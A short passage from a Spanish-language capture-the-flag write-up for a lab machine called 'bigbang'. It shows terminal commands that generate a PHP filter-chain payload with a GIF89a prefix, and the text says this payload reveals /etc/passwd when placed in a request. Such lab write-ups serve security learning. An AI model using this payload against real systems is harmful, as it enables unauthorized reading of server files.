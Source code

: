 ```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang/php_filter_chain_generator]
└─$ git clone https://github.com/synacktiv/php_filter_chain_generator

┌──(kali㉿kali)-[~/labs-hack/bigbang/php_filter_chain_generator]
└─$ python3 php_filter_chain_generator.py --chain GIF89a
[+] The following gadget chain will generate the following code : GIF89a (base64 value: R0lGODlh)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Lo ponemos en nuestra petición y ya podremos ver el /etc/passwd: 

![](../assets/images/machine-bigbang/imagen5.png)

![](../assets/images/machine-bigbang/imagen6.png)
